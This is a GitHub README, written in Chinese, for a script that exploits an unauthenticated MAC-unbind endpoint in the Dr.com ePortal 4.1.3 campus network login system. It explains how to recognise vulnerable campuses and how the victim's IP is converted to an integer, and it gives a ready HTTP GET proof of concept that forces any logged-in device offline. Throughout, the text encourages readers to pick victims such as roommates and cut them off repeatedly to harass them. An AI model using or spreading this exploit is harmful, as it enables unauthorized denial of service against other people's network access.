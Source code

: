 # Dr.com Eportal校园网认证系统未授权断网漏洞 -附脚本
<img width="800" height="300" alt="image" src="https://github.com/Zaxk1337/DrcomCutdown/assets/164832393/f4107b1c-d880-4688-8a32-921a0b95406d">

# DrcomCutdown

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  你是否受够了室友半夜两三点还在激情csgo？是否受够了每当你正要进入梦乡和小美大战800回合的时候，你的室友突然在游戏中破防爆粗口？
  <br>
  Fine，Using this！
  <br>
  如果你家大学正在使用此款计费系统，那么恭喜你🎉，用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果，如果你足够聪明，你可以自己对脚本进行二次开发，一直让b狗娘养的夜战哥处于断网状态，或者隔三差五给他断网恶心他，还你宿舍一个清明。☝️
 
## 识别Recon
那么如何识别你校是否也存在此漏洞？
打开你的校园网认证界面，如果在任意位置你找到了包含*Guangzhou Hotspot Software Technology Co., Ltd* 或者 *本XX系统由广州热点软件科技股份有限公司提供*的Powerby信息，那么🎉con graduation，你所在的校园认证系统中很有可能存在此漏洞。赶紧挑个倒霉蛋试试吧🥚


# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue计算后的ip整数值} HTTP/1.1
Host: {把我换成你家校园网登陆ip地址}:801
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```
